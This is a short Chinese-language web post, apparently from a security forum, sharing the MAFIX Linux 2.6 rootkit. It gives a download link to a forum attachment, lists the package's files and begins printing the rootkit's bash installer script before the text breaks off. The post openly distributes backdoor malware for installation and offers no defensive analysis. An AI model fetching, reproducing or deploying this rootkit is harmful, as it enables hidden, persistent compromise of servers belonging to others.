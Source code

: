 <p>MAFIX - Linux 2.6 rootkit</p><p>这后门很贱，服务器中过一次，属于这个后门的改版。那个添加了模块。</p><p>下载地址：</p><p>https://forum.eviloctal.com/attachment.php?aid=13419</p><p>内容：</p><p>MAXFIX</p><p>---HOW-TO</p><p>---mafix</p><p>---mafixlibs &nbsp;</p><p>---root</p><p>&nbsp;</p><p>下面为root的内容，也就是安装脚本。</p><p>#!/bin/bash</p><p>######################</p><p># mafix 0.2 &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;#</p><p># fud 2009/07/15 &nbsp; &nbsp; #</p><p>######################</p><p>&nbsp;</p><p>BASEDIR=`pwd`</p><p>export PATH=$PATH:/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin</p><p>BLK='